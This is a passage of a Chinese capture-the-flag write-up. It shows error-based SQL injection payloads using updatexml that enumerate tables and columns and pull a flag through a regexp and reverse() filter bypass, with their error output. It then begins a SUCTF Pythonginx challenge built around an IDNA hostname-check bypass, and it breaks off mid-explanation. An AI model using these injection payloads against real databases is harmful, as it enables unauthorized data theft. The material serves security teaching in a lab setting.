 表名
```sql
aaaaa"||updatexml(1,(concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),0x7e)),1)#
```
>XPATH syntax error: '\~article,flag,users~'

列名
```sql
bbbb"||updatexml(1,(concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),0x7e)),1)#
```
>XPATH syntax error: '~flag~'

数据
```sql
ddddd"||updatexml(1,(concat(0x7e,(select(group_concat(flag))from(flag)),0x7e)),1)#
```

>XPATH syntax error: '~RCTF{Good job! But flag not her'

虚晃一枪，能看出来是截断的，显示16个字符
最终发现flag是在表`users`里，截断函数都被过滤了，没有过滤`reverse()`

前半段
```sql
ddddd"||updatexml(1,(concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)),0x7e)),1)#
```
>XPATH syntax error: '~xxx,xxx,xxx,xxx,xxx,xxx,xxx,xxx'



可以发现有其他字符干扰，没法完全读取，正则函数未被过滤，尝试使用正则
```sql
ddddd"||updatexml(1,(concat(0x7e,(select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^flag')),0x7e)),1)#
```
配合`reverse()`得到flag


# <SUCTF 2019>Pythonginx

打开题目，得到部分源码
```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```
显然是要设法访问`suctf.cc`,
注意到意义不明的`newhost.append(h.encode('idna').decode('utf-8'))`，
先用`idna`编码又用`utf-8`解码，嗯，耐人寻味，查了下`idna`编码，